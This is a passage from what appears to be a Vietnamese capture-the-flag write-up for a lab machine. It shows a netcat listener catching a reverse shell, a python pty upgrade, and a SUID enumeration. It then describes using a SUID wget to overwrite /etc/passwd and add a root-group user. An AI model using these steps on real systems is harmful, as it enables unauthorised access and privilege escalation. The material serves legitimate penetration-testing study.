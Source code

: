 API đang báo cáo rằng dịch vụ đã được khởi động lại. Nếu bây giờ nhìn lại trình lắng nghe Netcat, đã nhận được reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.149: inverse host lookup failed: Unknown host
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.149] 42202
python -c 'import pty; pty.spawn("/bin/bash")'
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ id
id
uid=1000(clumsyadmin) gid=1000(clumsyadmin) groups=1000(clumsyadmin)
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$
```

## Escalation

### SUID Enumeration

Bắt đầu liệt kê cục bộ bằng cách xem các tệp nhị phân có bit SUID được đặt.

```
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ find / -perm -u=s -type f 2>/dev/null
<admin/webapp$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/wget
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
```

Trong danh sách này, rất may mắn khi tìm thấy file binary `/usr/bin/wget`, file này sẽ giúp dễ dàng leo thang đặc quyền. Tùy chọn đầu ra `-O` của file binary sẽ cho phép ghi đè các tệp hệ thống nhạy cảm. Đối với một ví dụ đơn giản, có thể ghi đè file `/etc/passwd` và giới thiệu một người dùng mới trong `root` group.

Tạo một bản sao cục bộ của tệp trên máy tấn công.

```
┌──(kali㉿kali)-[~]
└─$ cat passwd  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```
